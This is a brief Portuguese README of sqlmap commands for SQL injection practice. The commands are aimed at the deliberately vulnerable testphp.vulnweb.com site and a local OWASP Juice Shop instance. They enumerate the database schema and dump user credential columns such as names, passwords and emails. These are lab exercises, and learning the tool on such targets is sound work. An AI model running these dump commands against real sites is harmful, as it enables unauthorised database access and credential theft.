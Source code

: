 # SQLMap

Site para testes http://testphp.vulnweb.com
```
sqlmap --help
```
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart --tables
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart -T users --columns
```
``` 
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbms=mysql -D acuart -T users -C name,pass,uname,email --dump
``` 
Database Schema Juice-Shop
``` 
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --schema
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite --level=3 --risk=3 --technique=B --threads=4 --tables
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users --dump --threads=4
```
```
sqlmap -u "http://localhost:3000/rest/products/search?q=q" --dbms=sqlite -D SQLite_masterdb -T Users -C email,password,role --dump --threads=4
```
## Fontes:

https://www.100security.com.br/sqlmap

https://github.com/sqlmapproject/sqlmap/wiki/Introduction
